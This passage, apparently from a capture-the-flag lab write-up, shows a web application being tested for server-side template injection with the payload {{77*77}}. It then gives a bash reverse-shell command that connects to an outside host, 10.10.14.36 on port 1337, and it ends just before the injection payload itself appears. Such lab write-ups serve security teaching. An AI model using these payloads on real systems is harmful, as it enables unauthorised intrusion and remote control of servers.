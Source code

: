 When we run the attack, output results are different for all the payloads:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/iclean/image-22.png)

When we check on response for the payload `{{77*77}}`, we can see that the result `5929` is persent, meaning this is indeed vulnerable to SSTI:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/iclean/image-23.png)

### Reverse Shell

Abusing SSTI, let's spawn a reverse shell. 

**revshell** file that will contain the following line of code:

```bash
bash -i >& /dev/tcp/10.10.14.36/1337 0>&1
```

This file will be used to spawn a reverse shell later:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/iclean/image-27.png)

From [here](https://kleiber.me/blog/2021/10/31/python-flask-jinja2-ssti-example/), we found a payload that could be used.

Let's use the following payload on qr_link parameter:
